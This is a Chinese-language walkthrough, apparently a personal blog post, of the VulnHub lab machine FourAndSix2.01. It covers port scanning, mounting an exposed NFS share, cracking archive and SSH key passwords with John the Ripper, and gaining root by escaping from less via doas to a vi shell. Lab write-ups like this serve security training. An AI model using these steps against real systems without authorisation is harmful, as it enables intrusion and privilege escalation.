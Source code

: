 +++
ShowToc = true
TocOpen = true
title = '0x002 FourAndSix2.01'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# IP&端口扫描

```
sudo nmap -Pn -sS -p- -sV  192.168.154.130
```

![](/vulnhub_img/WEBRESOURCE45460ef9fe8d8f4de9fccc017dd36244截图.png)

# 挂载NFS

```
sudo mount -t nfs 192.168.154.130:/home/user/storage ./storage
```

# 破解解压密码

```
7z2john backup.7z > hash3
john -wordlist=/usr/share/wordlists/rockyou.txt hash3
```

# 发现图片和私钥

图片内没有东西，私钥链接需要密码：

![](/vulnhub_img/WEBRESOURCEb78f860910caa1eafc7b0f4a9b55bff5截图.png)

# 破解rsa私钥密码

方式与上面一致

![](/vulnhub_img/WEBRESOURCE38b881339b33a84247dd712004ba787e截图.png)

# 提权

SUID提权：

```
find / -perm -u=s -type f 2>/dev/null
```

![](/vulnhub_img/WEBRESOURCE3897cdce7c776f8933a5f679f20638de截图.png)

查找命令相关文件：

```
find / -name *doas* -type f 2>/dev/null
```

![](/vulnhub_img/WEBRESOURCEfaa371dfa93e8d3cbfb15e92deab123d截图.png)

根据提示来看，使用以下命令：

```
doas /usr/bin/less /var/log/authlog
```

然后按V来使用VI编辑器，然后输入：！sh来获得root shell

![](/vulnhub_img/WEBRESOURCE1a69288e2eed33e3a2ca48eb14b0a473截图.png)

# 总结

用doas的高权限运行/usr/bin/less查看/var/log/authlog，然后调用VI编辑器，通过VI编辑器可以获得高权限sh shell。